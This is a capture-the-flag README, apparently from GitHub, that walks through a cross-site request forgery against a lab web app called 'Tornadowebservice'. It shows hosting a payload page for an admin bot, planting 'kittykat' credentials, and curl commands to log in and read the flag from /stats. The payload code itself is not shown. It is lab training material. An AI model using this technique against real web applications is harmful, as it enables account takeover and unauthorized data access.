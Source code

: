 # Tornadowebservice

# Project Overview

The challenge is to exploiting a vulnerable web application called tornado wed service

Inject new credentials via a Cross-Site Request Forgery attack via hosting an html payload on local system .

Log in with the injected credentials.

Access sensitive data like flags and create a new user from a protected endpoint.

# Tools Used

Kali Linux

Burpsuite

Html

Json

Curl

# Methodology
Enumerate available endpoints and Get and Post requests on burpsuite:

/get_tornados

/update_tornado

/login

/stats

/report_tornado

# Study endpoint behaviors using tools like:

curl

Burp Suite 

browser developer tools

# Planning the Exploit

Find vulnerabilities to create an actionable exploit.

Vulnerability: Cross-Site Request Forgery

The bot is tricked into executing JavaScript on your hosted page and exploit its authenticated session.

Inject malicious data into the application (kittykat user credentials).

Log in and access the protected /stats endpoint.

# Tasks:

Create a malicious JavaScript payload(index.html) to fetch data from /get_tornados.

Update machine details in /update_tornado with injected credentials.

Host this payload as index.html on a local server or on NGROK Public server if you have the subscription.

# Hosting the exploit and exploiting the vulnerability

Firstly make sure to change the ipaddress and your port numbers according to your machine.

Get the status of the Ip Machine to know about it

`curl -X GET "http://94.237.63.109:45919/stats"\
-b cookie.txt
`

Run the following command to host index.html file http server.

`python -m http.server 1337`

Reporting a Tornado on the Box server.

`curl "http://94.237.59.207:47563/report_tornado?ip=127.0.0.1"`

Inject the new User to the server for getting access and store cookie data

`curl -X POST "http://94.237.59.207:47563/login" \           
-H "Content-Type: application/json" \
-d '{"username": "kittykat", "password": "kittykat"}' \
-c cookie.txt
`

Run the following command to get cookie data.

`curl -X GET "http://94.237.59.207:47563/stats" -b cookie.txt`

Submit the retrived flag.

# Pictures
![Screenshot_2024-11-22_23_34_25](https://github.com/user-attachments/assets/b56d6354-713c-4e9e-8692-8e1b9c355b17)

![Screenshot_2024-11-22_23_51_13](https://github.com/user-attachments/assets/18d85946-bff7-461c-a9d5-4182be43abb7)


![Screenshot_2024-11-22_23_50_53](https://github.com/user-attachments/assets/5d8c63d1-1578-4331-a8b2-85daa8de0eb7)



